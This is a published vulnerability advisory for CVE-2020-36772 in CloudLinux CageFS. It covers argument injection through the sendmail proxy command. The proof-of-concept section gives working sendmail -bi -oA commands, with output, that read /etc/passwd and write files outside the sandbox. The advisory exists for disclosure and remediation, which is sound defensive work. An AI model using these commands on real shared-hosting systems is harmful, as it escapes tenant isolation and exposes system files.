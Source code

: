 # CloudLinux CageFS Insufficiently Restricted Proxy Command #

## Vulnerability Overview ##

CloudLinux CageFS 7.0.8-2 or below insufficiently restricts file paths
supplied to the `sendmail` proxy command. This allows local users to read
and write arbitrary files of certain file formats outside the CageFS
environment.

* **Identifier**            : SBA-ADV-20200707-02
* **Type of Vulnerability** : External Control of File Name or Path
* **Software/Product Name** : [CloudLinux CageFS](https://www.cloudlinux.com/)
* **Vendor**                : CloudLinux Inc.
* **Affected Versions**     : <= 7.0.8-2
* **Fixed in Version**      : 7.1.1-1
* **CVE ID**                : CVE-2020-36772
* **CVSS Vector**           : CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:L/A:L
* **CVSS Base Score**       : 6.6 (Medium)

## Vendor Description ##

> CloudLinux OS is the leading platform for multitenancy. It improves
> server stability, density, and security by isolating each tenant and
> giving them allocated server resources. This creates an environment
> that feels more like a virtual server than a shared hosting account.
> By doing so, CloudLinux OS reduces operating costs and churn rates,
> and increases profitability.

Source: <https://www.cloudlinux.com/>

## Impact ##

A CageFS-restricted local user can read and write arbitrary files of certain
file formats outside the CageFS environment by exploiting the vulnerability
documented in this advisory.

## Vulnerability Description ##

CloudLinux offers a feature called proxy commands in CageFS environments.
It allows limited execution of commands outside the CageFS environment from
a user restricted within the CageFS environment.

CageFS allows in its default configuration to execute `sendmail` as a proxy
command outside the CageFS environment. This default configuration is
designed to allow local programs sending emails by invoking `sendmail`.
Due to the insufficient validation of sendmail's arguments an attacker can
invoke other sendmail functionality as well. While CageFS applies some
restrictions to the allowed arguments it does not restrict or validate the
`-bi` and `-oA` arguments.

Therefore, an attacker can have `sendmail` access arbitrary files which will
be interpreted as alias database files by enabling the `newalias` mode of
`sendmail` with `-bi` and specifying a file located outside the CageFS
environment with `-oA`.

On systems using the Postfix to Sendmail compatibility interface, a great
number of different alias database types can be used to craft exploits.
The compatibility interface internally calls `postalias` and besides the
`-oA` argument already being dangerous by itself, it also suffers from an
argument injection issue, which allows injection of additional Postfix
specific arguments for `postalias`. However, this is not a security issue
in Postfix.

According to Postfix developers, Postfix's `sendmail` does not enforce a
security policy on command-line arguments. Instead, it relies on the
UNIX/Linux system to enforce access policies based on the effective user and
group IDs of the process. If a security policy should be enforced, the
calling process must sanitize the command-line arguments before they are
given to `sendmail`. This includes but is not limited to sanity checks on
pathnames, and if applicable sanity checks on file contents in a way that
is not vulnerable to time-of-check to time-of-use race attacks, and
disabling options processing with `--`.

## Proof of Concept ##

For example, an attacker can read arbitrary files that at least partially
follow the structure `key <whitespace> value` via the lookup table type
`texthash`:

```sh
$ sendmail -bi -oA'-s,-f,texthash:/etc/passwd'
postalias: warning: /etc/passwd, line 1: expected format: key whitespace value -- ignoring this line
[...]
postalias: warning: /etc/passwd, line 211: expected format: key whitespace value -- ignoring this line
sssd:x:496:493:User:    for sssd:/:/sbin/nologin
dbus:x:81:81:System:    message bus:/:/sbin/nologin
polkitd:x:497:495:User: for polkitd:/:/sbin/nologin
tss:x:59:59:Account:    used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
systemd-resolve:x:193:193:systemd:      Resolver:/:/sbin/nologin
rngd:x:494:491:Random:  Number Generator Daemon:/var/lib/rngd:/sbin/nologin
sshd:x:74:74:Privilege-separated:       SSH:/var/empty/sshd:/sbin/nologin
systemd-coredump:x:499:497:systemd:     Core Dumper:/:/sbin/nologin
nobody:x:65534:65534:Kernel:    Overflow User:/:/sbin/nologin
ftp:x:14:50:FTP:        User:/var/ftp:/sbin/nologin
unbound:x:498:496:Unbound:      DNS resolver:/etc/unbound:/sbin/nologin
nrpe:x:492:486:NRPE:    user for the NRPE service:/var/run/nrpe:/sbin/nologin
```

The attacker can also use other lookup table types which might disclose
sensitive information. For example, `unix` allows the query of specific
users regardless of the format:

```sh
$ sendmail -bi -oA'-q,ftp2406151,unix:passwd.byname'
ftp2406151:x:935:935::/home/ftp2406151:/sbin/nologin
```

An attacker can also write specific file formats outside the CageFS
environment. For example, with the `hash` lookup table type:

```sh
$ echo sba:was_here | sendmail -bi -oA'-o,-p,-i,-f,hash:/tmp/sba_was_here'
$ sendmail -bi -oA'-s,-f,hash:/tmp/sba_was_here'
@:      @
YP_LAST_MODIFIED:       1594138203
YP_MASTER_NAME: localhost
sba:    was_here
```

## Recommended Countermeasures ##

We recommend to restrict the `sendmail` command to only strictly required
parameters using an allow list approach. At least the following parameters
are known to cause dangerous behavior:

* `-oA`: Allows specification of multiple paths and additional arguments.
  It is important to consider that it is directly followed by the pathname
  without a separator, i.e., `-oA/etc/passwd`.
* `-bi`: Enables the `newalias` mode of `sendmail`.
* `-I`: Enables the `newalias` mode of `sendmail`.
* `-v`: If the parameter is added at least two times, i.e., `-vv`,
  `-vvvvv` or `-v -v`, it enables the verbose mode, which leaks the
  Postfix configuration in some cases.

We did not fully analyze other parameters of `sendmail`, therefore, it is
possible that `sendmail` as proxy command is also prone to other attacks.

## Timeline ##

* `2020-07-07`: identification of vulnerability in version 7.0.6-1
* `2020-07-10`: initial vendor contact
* `2020-07-13`: initial vendor response
* `2020-07-13`: disclosed vulnerability to vendor security contact
* `2020-08-06`: vendor released version 7.1.1-1 to testing
* `2020-09-03`: vendor released version 7.1.1-1 to production
* `2020-10-02`: request CVE from MITRE
* `2022-01-04`: MITRE declined request as it falls in the scope of Red Hat
* `2024-01-19`: request CVE from Red Hat
* `2024-01-22`: Red Hat assigned CVE-2020-36772
* `2024-01-25`: public disclosure

## References ##

* CageFS 7.1.1-1 beta: <https://blog.cloudlinux.com/beta-cagefs-and-alt-python27-cllib-updated-1>
* CageFS 7.1.1-1 production: <https://blog.cloudlinux.com/lve-manager-lve-stats-lve-utils-and-alt-python27-cllib-have-been-rolled-out-to-100>

## Credits ##

* David Lisa Gnedt ([SBA Research](https://www.sba-research.org/))
